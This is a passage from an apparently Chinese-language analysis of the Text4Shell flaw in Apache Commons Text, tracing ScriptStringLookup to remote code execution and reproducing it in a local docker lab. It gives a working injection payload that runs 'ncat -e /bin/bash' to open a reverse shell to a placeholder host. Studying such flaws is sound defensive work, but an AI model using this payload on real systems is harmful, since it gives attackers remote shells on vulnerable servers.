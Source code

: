 #### org.apache.commons.text.lookup.ScriptStringLookup#lookup

再次根据 `:` 将表达式分割

![image-20221128155624191](assets\image-20221128155624191.png)

最终造成RCE

![image-20221128155818007](assets\image-20221128155818007.png)

## 5 漏洞复现

利用docker环境复现

http://192.168.157.138/text4shell/attack?search=

payload: ${script:javascript:java.lang.Runtime.getRuntime().exec('ncat -e /bin/bash ip port')}

受害机：

启动环境：

![image-20221128161350736](assets\image-20221128161350736.png)
